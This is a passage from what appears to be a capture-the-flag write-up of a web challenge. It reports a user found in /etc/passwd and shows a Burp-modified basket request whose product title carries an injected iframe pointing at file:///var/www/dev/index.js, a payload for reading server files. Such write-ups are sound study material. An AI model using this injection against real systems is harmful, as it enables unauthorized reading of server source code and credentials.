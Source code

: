 ![img14](screenshots/img14.png)

- From the above /etc/passwd file we found a user called **angoose**
- Let's try to fetch some more interesting files...

### fetching Index.js file

- Modified Request in Burp:

```
{
  "basket": [
    {
      "_id": "638f116eeb060210cbd83a8f",
      "title": "Bin <iframe src=file:///var/www/dev/index.js height=800px width=500px></iframe>",
      "description": "It's a rubbish bin.",
      "image": "bin.jpg",
      "price": "76",
      "currentStock": "15",
      "__v": 0,
      "amount": 1
    }
  ]
}
```
